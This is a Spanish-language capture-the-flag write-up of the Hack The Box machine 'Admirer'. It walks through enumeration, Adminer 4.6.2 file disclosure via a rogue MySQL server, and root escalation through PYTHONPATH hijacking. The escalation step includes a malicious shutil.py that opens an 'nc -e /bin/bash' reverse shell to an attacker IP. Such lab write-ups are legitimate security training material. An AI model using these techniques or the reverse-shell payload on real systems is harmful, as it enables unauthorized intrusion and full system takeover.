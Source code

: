 # Admirer

**OS**: Linux \
**Dificultad**: Fácil \
**Puntos**: 20

## Resumen
- Fuzzing de directorios y archivos
- File Disclosure Adminer 4.6.2
- Mysql Rogue
- Escalamiento de Privilegios mediante sudo
- Python Hijacking

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.187`

![nmap](images/nmap.png)

## Enumeración

Se puede visualizar que en el puerto `80` existe el archivo `robots.txt` y contiene la ruta `/admin-dir`.

![robots](images/robots.png)

Al acceder a la ruta `/admin-dir` nos arroja un código `403` que significa que no tenemos acceso.

![403](images/403.png)

### Fuzzing de archivos

Usamos gobuster para encontrar directorios y archivos.

`gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/dirb/wordlists/big.txt -x php,txt,html`

![gobuster](images/gobuster.png)

Podemos ver que hay 2 archivos a los que podemos acceder `contacts.txt` y `credentials.txt`. El archivo `credentials.txt` contiene nombres de usuarios y contraseñas.

![credentials](images/credentials.png)

Entramos al servidor **ftp** con las credenciales obtenidas y se pueden ver 2 archivos, los cuales descargamos a nuestra máquina.

![ftp](images/ftp.png)

Después de revisar los archivos nos encontramos con una carpeta llamada `utility-scripts` con archivos **php** los cuales se pueden visualizar en el navegador.

![info](images/info.png)

Se usa `wfuzz` para encontrar más archivos `php` en el directorio.

`wfuzz -c --hc 404,403 -w /usr/share/dirb/wordlists/big.txt http://10.10.10.187/utility-scripts/FUZZ.php`

![wfuzz](images/wfuzz.png)

## Exploit Adminer 4.6.2

Podemos ver que al entrar a la ruta `/utility-scripts/adminer.php` vemos un portal para conectarnos a un servidor mysql, también se puede  visualizar la versión de la aplicación.

Después de buscar un rato sobre vulnerabilidades de **Adminer 4.6.2** encontramos que tiene una falla que nos permite leer archivos del sistema. Esto funciona conectándonos a nuestro propio servidor mysql y posteriormente intentar leer archivos del sistema que serán reflejados en el **mysql.log**.

Para explotar la vulnerabilidad usaremos un [script](https://github.com/Gifts/Rogue-MySql-Server) para levantar un servidor mysql y modificaremos los archivos que queremos leer.

```
filelist = (
    '/etc/passwd',
    '/var/www/html/index.php'
)
```

Posteriormente ejecutamos el script.

`python mysql.py`

![mysql](images/mysql.png)

Nos conectamos a nuestro servidor desde la página web, donde le usuario sera el de nuestra máquina al igual que el password.

![login](images/login.png)

Después de conectarnos se nos genera un archivo `mysql.log` al revisar ese archivo podemos ver que nos trajo el archivo `index.php` el cual contiene el password del usuario waldo.

![pass](images/pass.png)

Procedemos a conectarnos por **ssh** con el usuario y password.

![user](images/user.png)

## Escalada de Privilegios

Podemos ver que tenemos permisos **sudo** para ejecutar un comando y también pertenecemos al grupo **admins**.

![sudo](images/sudo.png)

Después de revisar el archivo `admin_tasks.sh` nos percatamos de una función interesante llamada `backup_web()` que hace uso de `backup.py`.

![task](images/task.png)

Al leer el archivo `backup.py` vemos que está importando una función de `shutil` llamada `make_archive`.

![backup](images/backup.png)

### Python Hijacking
Nosotros podemos establecer la variable `PYTHONPATH` para reemplazar la ruta donde toma los paquetes python por nuestro propio `shutil.py` con la función `make_archive` modificada para obtener una reverse shell.

>PYTHONPATH es una variable de entorno que puede configurar para agregar directorios adicionales donde python buscará módulos y paquetes. Esta variable frecuentemente no está definida. Un módulo en Python es un script con extensión .py.

##### shutil.py
```python
import os
import subprocess
import socket

rhost = "10.10.15.12"
rport = 1234

def make_archive(dst, type, src):
        os.system("nc -e /bin/bash {0} {1}".format(rhost, rport))
```
Mandamos nuestro archivo al sistema por ssh con la herramienta `scp` y le damos permisos de ejecución.

![file](images/file.png)

Posteriormente establecemos nuestra variable de entorno con la ruta donde se encuentra nuestro `shutil.py`.

`export PYTHONPATH=/tmp:$PYTHONPATH`

Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Ejecutamos el comando sudo y le damos la opción **6**.

`sudo "PYTHONPATH=$PYTHONPATH" /opt/scripts/admin_tasks.sh`

![var](images/var.png)

Y veremos que obtenemos una reverse shell con privilegios root.

![root](images/root.png)

## Referencias
https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability \
https://github.com/Gifts/Rogue-MySql-Server